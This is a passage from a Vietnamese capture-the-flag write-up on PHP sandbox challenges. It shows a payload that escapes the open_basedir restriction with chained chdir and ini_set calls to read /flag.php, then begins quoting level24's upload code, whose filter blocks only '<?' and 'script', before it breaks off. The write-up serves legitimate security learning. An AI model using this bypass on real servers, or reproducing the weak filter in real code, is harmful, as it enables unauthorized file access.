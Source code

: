 ![image](https://user-images.githubusercontent.com/75429369/183096618-32fd74f6-f1f9-4c3e-99d1-f91f35844b4d.png)

Sử dụng nó thử nào, giờ ta phải tìm được sub-directory của `/sandbox` đã, cái này thì dễ rồi

```php
print_r(scandir('.'));
```

![image](https://user-images.githubusercontent.com/75429369/183096929-6abdc4e5-c9b3-419a-bbc7-a802b3ef8d22.png)

Là `tmp`, hoàn thiện payload thôi:

```php
chdir('tmp'); ini_set('open_basedir','..'); chdir('..'); chdir('..'); chdir('..'); ini_set('open_basedir','/'); readfile('/flag.php');
```

![image](https://user-images.githubusercontent.com/75429369/183097086-9a69eb04-25af-4e65-b562-aa73a7853dbf.png)

# level24

Đề bài cho ta tạo file bằng cách nhập tên file rồi sau đó cho điều chỉnh content của file, cuối cùng là lưu vào `/upload/<cái gì đấy>/<tên file>`

```php
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

session_start();

include 'clean_up.php';

/* periodic cleanup */
foreach (glob("./uploads/*") as $file) {
    if (is_file($file)) {
        unlink($file);
    } else {
        if (time() - filemtime($file) >= 60 * 60 * 24 * 7) {
            Delete($file);
        }
    }
}

$upload_dir = sprintf("./uploads/%s/", session_id());
@mkdir($upload_dir, 0755, true);

/* sandboxing ! */
chdir($upload_dir);
ini_set('open_basedir', '.');

$p = "list";
$data = "";
$filename = "";

if (isset($_GET['p']) && isset($_GET['filename']) ) {
    $filename = $_GET['filename'];
    if ($_GET['p'] === "edit") {
        $p = "edit";
        if (isset($_POST['data'])) {
            $data = $_POST['data'];
            if (strpos($data, '<?')  === false && stripos($data, 'script')  === false) {  # no interpretable code please.
                file_put_contents($_GET['filename'], $data);
                die ('<meta http-equiv="refresh" content="0; url=.">');
```